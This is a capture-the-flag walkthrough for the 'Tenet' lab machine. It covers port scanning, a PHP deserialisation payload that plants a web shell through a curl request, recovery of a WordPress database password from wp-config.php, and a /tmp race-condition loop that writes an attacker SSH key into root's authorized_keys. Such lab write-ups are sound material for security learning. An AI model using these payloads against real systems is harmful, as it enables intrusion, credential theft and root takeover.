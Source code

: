 # Tenet

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.1  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 08:28 EDT
Nmap scan report for 10.129.85.1
Host is up (0.0071s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Another web-based exploit. We have to add `tenet.htb` to our `/etc/hosts` file to view the website.

### Tenet PHP Deserialisation

The machine has a blog-like website:

<figure><img src="../../../.gitbook/assets/image (84) (4).png" alt=""><figcaption></figcaption></figure>

This is a Wordpress based site if we view the page source. If we view some of the comments within the pages, we can see this comment that points us towards another file:

<figure><img src="../../../.gitbook/assets/image (86) (4).png" alt=""><figcaption></figcaption></figure>

Visiting `sator.php` won't do anything. Instead, visit`http://<IP>/sator.php.bak`, and it would download file to our machine. Then, we can view the file contents:

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

This was an obvious deserialisation exploit at the `sator.php` file hosted on the IP address. As such, we can create this small bit of code that would write a new file to the machine.

```php
<?php

class DatabaseExport {

    public $file = "cmd.php";
    public $data = '<?php system($_REQUEST["cmd"]); ?>';

}

$input = new DatabaseExport;
echo serialize($input);
?>
```

When run in PHP, it wouuld create a PHP Serialised object. Then, we just need to send that within the `arepo` parameter in a GET request to `sator.php`:

```
$ curl -G --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:7:"cmd.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}' http://10.129.85.1/sator.php
```

Afterwards, we can confirm we have RCE on the machine:

```
$ curl http://10.129.85.1/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Just spawn a reverse shell using a basic `bash` shell next.

<figure><img src="../../../.gitbook/assets/image (56) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Wordpress Credentials

Now that we are in, we can read the `wp-config.php` file. We would find some credentials in it:

```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

We can then just `su` to `neil` and grab the user flag.

### Sudo Race Condition

When we check `sudo` privileges, we see this:

```
www-data@tenet:/var/www/html$ sudo -l
Matching Defaults entries for www-data on tenet:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User www-data may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

Here's the script:

```bash
#!/bin/bash

checkAdded() {
        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
                /bin/echo "Successfully added $sshName to authorized_keys file!"
        else
                /bin/echo "Error in adding $sshName to authorized_keys file!"
        fi
}

checkFile() {
        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
                /bin/echo "Error in creating key file!"
                if [[ -f $1 ]]; then /bin/rm $1; fi
                exit 1
        fi
}

addKey() {
        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
        (umask 110; touch $tmpName)
        /bin/echo $key >>$tmpName
        checkFile $tmpName
        /bin/cat $tmpName >>/root/.ssh/authorized_keys
        /bin/rm $tmpName
}
```

This script is a classic example of a race condition attack. Since the key is temporarily created within the `/tmp` directory before being added to the `authorized_keys` folder of `root`, we can intercept the response by having a loop running within the `/tmp` directory that checks for the key's creation, then overwrite the file with my own key.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"># in first SSH shell
while true; do for file in /tmp/ssh-*; do echo 'YOUR KEY VALUE' > $file ; done; done
# in another
<strong>while true; do sudo /usr/local/bin/enableSSH.sh; done
</strong><strong>
</strong><strong># alternatively, run this script
</strong>#!/bin/bash

while true; do
        cat id_rsa.pub | tee /tmp/ssh-*
        sudo /usr/local/bin/enableSSH.sh
done
</code></pre>

After a while, we should get an error like this:

<figure><img src="../../../.gitbook/assets/image (91) (4).png" alt=""><figcaption></figcaption></figure>

Then we can just SSH to `root`.

<figure><img src="../../../.gitbook/assets/image (82) (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
